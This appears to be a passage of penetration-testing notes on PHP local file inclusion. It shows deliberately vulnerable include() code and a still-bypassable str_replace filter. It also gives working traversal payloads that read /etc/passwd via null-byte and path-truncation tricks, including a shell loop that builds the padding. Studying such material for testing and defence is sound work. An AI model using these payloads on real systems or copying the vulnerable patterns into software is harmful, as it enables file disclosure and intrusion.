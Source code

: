 ##### Or

```
<?php
   $file = $_GET['file'];
   if(isset($file))
   {
       include("$file");
   }
   else
   {
       include("index.php");
   }
   ?>
```   
### Or
The include() function loads a local or a remote file as we load a page. If the path passed to the include() is taken from a user-controlled parameter, like a GET parameter, and the code does not explicitly filter and sanitize the user input, then the code becomes vulnerable.
Many other PHP functions that would lead to the same vulnerability if we had control over the path passed into them. Such functions include include_once(), require(), require_once(), file_get_contents(), and several others as well.


```   
   if (isset($_GET['language'])) {
    include($_GET['language']);
}
```
##### This vuln can be fixed with the below code tho its still vulnerable...

```
<?php

if(isset($_GET['file']))
{
        $file=str_replace('../','',$_GET['file']);
        $file=str_replace('./','',$file);
        echo @file_get_contents('./'.$file);
}

?>
    
```

#### bypass of: $_GET['param']."php"
In some servers, they add a definite file extension to prevent exploitation....
<br>
We can exploit this by adding a null byte in url encoding:
<br>
This only applies to php version 5.3.4 and below...
```
http://example.com/index.php?page=../../../etc/passwd%00 // Only applies to PHP 5.3.4 and below
```
Another method...
```
http://example.com/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]

To generate the './' many times;
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
non_existing_directory/../../../etc/passwd/./././<SNIP>././././
```
<br>
